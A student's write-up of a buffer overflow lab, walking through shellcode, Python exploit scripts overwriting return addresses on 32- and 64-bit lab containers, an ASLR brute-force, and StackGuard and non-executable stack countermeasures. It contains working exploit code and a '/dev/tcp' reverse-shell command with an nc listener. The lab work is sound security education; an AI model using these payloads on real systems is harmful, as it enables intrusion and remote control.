








# Buffer Over Flow Lab

## Description

In this lab we are going to learn about a very famous type of attacks, buffer over flow attacks. We will be given four servers where in each there is an app with this vulnerability and we need to use that vulnerability to gain root access to these four machines. Then we are going to learn about countermeasures that are used to prevent such attacks.

## Task 1

In the `shellcode` folder of the lab files we have  `call_shellcode.c` which is the source code of a program that runs the `codefile_32` assembly (`codefile_64` assembly depending on the gcc build flags); on the other hand we have two python scripts that create this assembly files. This assembly files basically run a shell inside the host. Now the task is to modify one of the python scripts in such a way that when `call_shellcode` is run, a file in the directory is deleted. The script below does exactly that; it removes a file named `test-remove.txt` from our directory:

```python
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/rm  test-remove.txt                                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_64', 'wb') as f:
  f.write(content)
```
And here is the result:\


## Task 2
In this task we use a python script called `exploits.py` which in turn creates a malicious input string in a file named `badfile`.
Then we send this input to the vulnerable 32-bit version of `stack.c` program which is running in container `10.9.0.5` over a TCP connection. Then we would be able to run any code we want with root privileges inside the container.

### Python script

```python
import sys

shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"

  #  "/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd     *"
   "echo buffer-overflow-attack-was-successful                *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 


frame_pointer_addr = 0xffffd098
buffer_addr = 0xffffd028
##################################################################
# Put the shellcode somewhere in the payload
start = 200               
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = buffer_addr + 200
offset = frame_pointer_addr - buffer_addr + 4

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
In the script above we first put our shellcode at the index 200 of the buffer (which is in the 1000 free bytes area that is available between `bof()` frame and the `main()` frame). Then we overwrite the ret address so that it points to the start of our shellcode.

### result


### reverse shell
Now that we have access to the container, we can run a reverse shell and have a little fun! To do this we change the command part of are shell code to the below:

```
/bin/bash -i > /dev/tcp/10.9.0.1/6060      0<&1 2>&1      *
```
This creates a bash shell with it's stdin, stdout and stderr file descriptors all pointing to a new TCP connection to the attackers 6060 port.
Then we in our machine, we listen for any connections made to the 6060 port with the following command:
```
nc -nv -l 6060
```
then we run the `./exploits.py` again and send the content of `badfile` to the container, this is the result:



## Task 3
This task is a little bit harder, because now we are attacking `10.9.0.6` and this container only reveals the address of buffer in the stack (not the frame pointer). But another piece of information we have is the the buffer size is somewhere between 100 to 300 Bytes, using this information we have changed the `exploits.py` to:
```python
# only showing the part we have changed:
...
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret = buffer_addr + start
# buffer size is somewhere between 100 to 300 bytes.
for offset in range(104,320,4):
   # Use 4 for 32-bit address and 8 for 64-bit address
   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
...
```
First of all we push the content of the shellcode to the end of our 517Byte long buffer. Then we we fill all possible positions of the `ret pointer` with the address of the start of shellcode; this way we are sure that no matter the buffer size, we have set the `ret pointer` to the desired address. Looking at the `badfile` can further elaborate this:
```
seed@seed:~/Desktop/buffer-over-flow-lab/attack-code$ xxd badfile 
00000000: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000010: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000020: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000030: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000040: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000050: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000060: 9090 9090 9090 9090 55d8 ffff 55d8 ffff  ........U...U...
00000070: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
00000080: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
00000090: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
000000a0: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
000000b0: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
000000c0: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
000000d0: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
000000e0: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
000000f0: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
00000100: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
00000110: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
00000120: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
00000130: 55d8 ffff 55d8 ffff 55d8 ffff 55d8 ffff  U...U...U...U...
00000140: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000150: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000160: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000170: 9090 9090 9090 9090 9090 9090 90eb 295b  ..............)[
00000180: 31c0 8843 0988 430c 8843 4789 5b48 8d4b  1..C..C..CG.[H.K
00000190: 0a89 4b4c 8d4b 0d89 4b50 8943 548d 4b48  ..KL.K..KP.CT.KH
000001a0: 31d2 31c0 b00b cd80 e8d2 ffff ff2f 6269  1.1........../bi
000001b0: 6e2f 6261 7368 2a2d 632a 2f62 696e 2f6c  n/bash*-c*/bin/l
000001c0: 7320 2d6c 3b20 6563 686f 2048 656c 6c6f  s -l; echo Hello
000001d0: 2033 323b 202f 6269 6e2f 7461 696c 202d   32; /bin/tail -
000001e0: 6e20 3220 2f65 7463 2f70 6173 7377 6420  n 2 /etc/passwd 
000001f0: 2020 2020 2a41 4141 4142 4242 4243 4343      *AAAABBBBCCC
00000200: 4344 4444 44   
```
here we see the shell code at the end our buffer, and a range of bytes all set to `55d8 ffff` the start address of shellcode. The result is as follows:



## Task 4
In this task we are dealing with the 64bit version of the `stack.c` program. The main difficulty we have is that in 64bit systems the addresses are 64 bit (8 bytes ) but the total address space of the virtual memory is only 48 bit so all addresses contain 12 zero bits at their beginning and we know that the `strcpy()` terminates when it sees a zero byte; so we cannot have addresses in our buffer. However since we use little-endian to encode our addresses, actually the last bits of the address are zeros, now since in the first place we have a valid address in the 8 Bytes of `ret addr` we are in luck! We can put our shellcode at the beginning of the buffer and then overwrite the 48 bits of the return address such that we return to the beginning of the buffer. Note that we have the following constraints:
1. first the shellcode should be small enough to fit in the valid part of the buffer
2. second the 48 bits of the address we return to should not contain any zeros on its own.

### Modified exploit script
```python
shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   "/bin/bash -i > /dev/tcp/10.9.0.1/6060      0<&1 2>&1      *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's 
content = bytearray(0x90 for i in range(517)) 

frame_pointer_addr = 0x00007fffffffe2c0
buffer_addr = 0x00007fffffffe1f0
print(f'buffer size: {frame_pointer_addr - buffer_addr}')
print(f'shellcode length: {len(shellcode)}')

##################################################################
# Put the shellcode somewhere in the payload
start = 17 # so that the address of the shellcode (48 bits of it) wont contain any zeroes.              
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret = buffer_addr + start
offset = frame_pointer_addr - buffer_addr + 8
# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
### Result


## Task 5
TODO

## Task 6

In this task we going to experiment with ASLR (Address Space Layout Randomization). This method displaces the stack, heap, code and other sections of the virtual memory to different locations each time the program runs; thus we cannot no longer hard code the return address and make the program jump to our shellcode. To ses this we first enable the ASLR and then run containers one and three multiple times:

```
server-1-10.9.0.5 | Got a connection from 10.9.0.1
server-1-10.9.0.5 | Starting stack
server-1-10.9.0.5 | Input size: 6
server-1-10.9.0.5 | Frame Pointer (ebp) inside bof():  0xffa25308
server-1-10.9.0.5 | Buffer's address inside bof():     0xffa25298
server-1-10.9.0.5 | ==== Returned Properly ====
server-1-10.9.0.5 | Got a connection from 10.9.0.1
server-1-10.9.0.5 | Starting stack
server-1-10.9.0.5 | Input size: 6
server-1-10.9.0.5 | Frame Pointer (ebp) inside bof():  0xffb27fd8
server-1-10.9.0.5 | Buffer's address inside bof():     0xffb27f68
server-1-10.9.0.5 | ==== Returned Properly ====
server-1-10.9.0.5 | Got a connection from 10.9.0.1
server-1-10.9.0.5 | Starting stack
server-1-10.9.0.5 | Input size: 6
server-1-10.9.0.5 | Frame Pointer (ebp) inside bof():  0xff890dc8
server-1-10.9.0.5 | Buffer's address inside bof():     0xff890d58
server-1-10.9.0.5 | ==== Returned Properly ====
```

```
server-3-10.9.0.7 | Got a connection from 10.9.0.1
server-3-10.9.0.7 | Starting stack
server-3-10.9.0.7 | Input size: 6
server-3-10.9.0.7 | Frame Pointer (rbp) inside bof():  0x00007ffcf1a811d0
server-3-10.9.0.7 | Buffer's address inside bof():     0x00007ffcf1a81100
server-3-10.9.0.7 | ==== Returned Properly ====
server-3-10.9.0.7 | Got a connection from 10.9.0.1
server-3-10.9.0.7 | Starting stack
server-3-10.9.0.7 | Input size: 6
server-3-10.9.0.7 | Frame Pointer (rbp) inside bof():  0x00007ffe3276a6c0
server-3-10.9.0.7 | Buffer's address inside bof():     0x00007ffe3276a5f0
server-3-10.9.0.7 | ==== Returned Properly ====
server-3-10.9.0.7 | Got a connection from 10.9.0.1
server-3-10.9.0.7 | Starting stack
server-3-10.9.0.7 | Input size: 6
server-3-10.9.0.7 | Frame Pointer (rbp) inside bof():  0x00007ffecd6ab5f0
server-3-10.9.0.7 | Buffer's address inside bof():     0x00007ffecd6ab520
server-3-10.9.0.7 | ==== Returned Properly ====
```
We see that with each run the whole stack is displaced to a random location in VM.

The interesting thing about 32-bit ASLR is that only the last 17 bits of the address can be randomized meaning that there are only about 132,000 possible places for our shellcode. So we can use a script that would try our fixed `badfile` repeatedly until what we hardcoded to be the address of shell accidentally is true. For us took 9960 trial to finally guess the address right:



## Task 7
In this task we are learning about StackGuard. StackGuard is a security mechanism used by GCC from 1998 forward in order to defeat Buffer Overflow Attacks. In this mechanism the compiler inserts a small data known as canary between the stack data(buffers, local variables, etc) and the function return address. Also compiler adds a little bit of code at the end of each function that checks that canary has remained intact during the execution of the function, if that was the case, normal flow of the program is continued, otherwise the program terminates; as shown in the figure below:


GCC uses three types of canaries:
1. Terminators: these canaries are nothing but a bunch of terminating characters NULL, CR, EOF,... . These are known to attacker and won't change from run to run, But the beauty lies in the fact that attacker cannot change them, so most of string copy functions which are the main source of BOF attacks will terminate copying when they reach the canary bits and the attacker won't be able to alter the return address, thus defeating the attack.
2. Random: these canaries are just some random bits that are inserted at run time. These random bits either come from `/dev/urandom` and if this was unavailable they come from hash of the current time. Since attacker won't know the value of these at runtime they can be used to diffuse BOF attacks.
3. random XOR: these canaries are random XORs of random canaries. where the XORs are based on some control data (frame pointer, return address, ...). One might think why we would need this third kind, aren't the two above enough? well the answer is that Terminator canaries won't work against non-string functions, and random canaries can be defeated if there is an information leak some where leading the attacker to know about the random bits. But the beauty of random XOR canaries is that even if the source of randomness is known, the attacker **must** change all of the control data in order to come up with some valid canaries and thus making the attack very hard.
   

## Task 8
Another counter-mechanism against BOF attacks is the non executable stack flag, which simply flags the pages that the stack resides in as non-executables thus making the kernel to raise Segmentation Fault when we try to run some code on stack:


Please note that this mechanism can be bypassed if the attacker can return to some parts of standard libraries code which is called return-to-libc attack.


